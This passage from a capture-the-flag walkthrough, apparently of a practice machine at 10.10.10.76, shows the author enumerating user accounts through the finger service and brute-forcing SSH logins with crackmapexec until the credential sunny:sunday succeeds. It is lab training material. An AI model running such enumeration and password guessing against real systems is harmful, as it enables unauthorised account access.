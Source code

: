 ```
```

So basically other than `root` no one has a Shell `TTY` access.  I can also use `finger` command on kali to get little extra details
###### `finger command on kali`
```
# finger -l root@10.10.10.76
Login name: root                        In real life: Super-User
Directory: /root                        Shell: /usr/bin/bash
Last login Thu Dec  7, 2023 on ssh from 10.10.14.46
Unread mail since Wed Apr 13 15:20:46 2022
No Plan.
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/PRET]
└─# echo "sunny" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/PRET]
└─# echo "sammy" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         
```

Found two more users. Sunny and Sammy. It is always a good idea to try out the box name as a password for all the users. I will compost the wordlist and try using `netexec` to bruteforce the password.

###### `Crackmapexec to BruteForce password`
```
# crackmapexec ssh 10.10.10.76 --port 22022 -u wordlist  -p wordlist                     
SSH         10.10.10.76     22022  10.10.10.76      [*] SSH-2.0-OpenSSH_8.4
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:sunday Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:root Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:sammy Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:sunny Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sunday:admin Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:sunday Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:root Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:sammy Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:sunny Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] root:admin Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:sunday Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:root Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:sammy Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:sunny Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [-] sammy:admin Authentication failed.
SSH         10.10.10.76     22022  10.10.10.76      [+] sunny:sunday 
```
